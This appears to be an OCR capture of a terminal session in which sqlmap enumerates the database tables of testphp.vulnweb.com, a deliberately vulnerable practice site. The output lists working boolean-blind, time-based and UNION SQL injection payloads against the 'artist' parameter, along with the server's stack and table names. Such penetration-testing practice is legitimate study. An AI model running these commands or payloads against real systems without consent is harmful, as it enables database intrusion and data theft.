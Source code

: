  
┌──(kali㉿kali)-[~]
└─$ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables
 ___
 __H__ 
___ ___[,]_____ ___ ___ {1.7.8#stable} 
|_ -| . [.] | .'| . | 
|___|_ [.]_|_|_|__,| _| 
 |_|V... |_| https://sqlmap.org 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end 
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and 
are not responsible for any misuse or damage caused by this program
[*] starting @ 04:04:50 /2024-11-02/
[04:04:51] [INFO] resuming back-end DBMS 'mysql' 
[04:04:51] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: artist (GET)
 Type: boolean-based blind
 Title: AND boolean-based blind - WHERE or HAVING clause
 Payload: artist=1 AND 3786=3786
 Type: time-based blind
 Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
 Payload: artist=1 AND (SELECT 2060 FROM (SELECT(SLEEP(5)))tCWc)
 Type: UNION query
 Title: Generic UNION query (NULL) - 3 columns
 Payload: artist=-9216 UNION ALL SELECT 
CONCAT(0x716b767671,0x4e4b464b437157776f597753534c536944624d4f70486476575272696e6479797
84a426341426f75,0x7176787171),NULL,NULL-- -
---
[04:04:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[04:04:52] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists |
| carts |
| categ |
| featured |
| guestbook |
| pictures |
| products |
| users |
+-----------+
[04:04:53] [INFO] fetched data logged to text files under 
'/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'
[04:04:53] [WARNING] your sqlmap version is outdated
[*] ending @ 04:04:53 /2024-11-02/
 